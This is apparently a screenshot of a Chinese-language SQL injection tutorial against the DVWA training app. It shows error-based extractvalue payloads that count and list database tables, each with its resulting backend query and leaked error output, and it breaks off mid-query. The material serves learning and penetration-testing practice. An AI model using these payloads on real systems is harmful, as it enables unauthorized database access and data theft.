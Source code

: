 ```
方法2：先判断表的数量，然后再使用limit将需要的数据查询出来（当数据量很大的时候，可以使用这个方式）
表的数量查询
前端：
1' and extractvalue(1,concat(0x7e,(select count(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA = 'dvwa'))) #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT count(TABLE_NAME)
          FROM information_schema.TABLES
          WHERE TABLE_SCHEMA = 'dvwa'
        )
    )
);

// XPATH syntax error: '~2'

根据表的数量，查询指定数据
前端：
1' and extractvalue(1,concat(0x7e,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = 'dvwa' limit 0,1))) #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT TABLE_NAME
          FROM information_schema.TABLES
          WHERE TABLE_SCHEMA = 'dvwa'
          LIMIT 0,1
        )
    )
);

// XPATH syntax error: '~guestbook'

前端：
1' and extractvalue(1,concat(0x7e,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = 'dvwa' limit 1,1))) #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT TABLE_NAME
          FROM information_schema.TABLES
```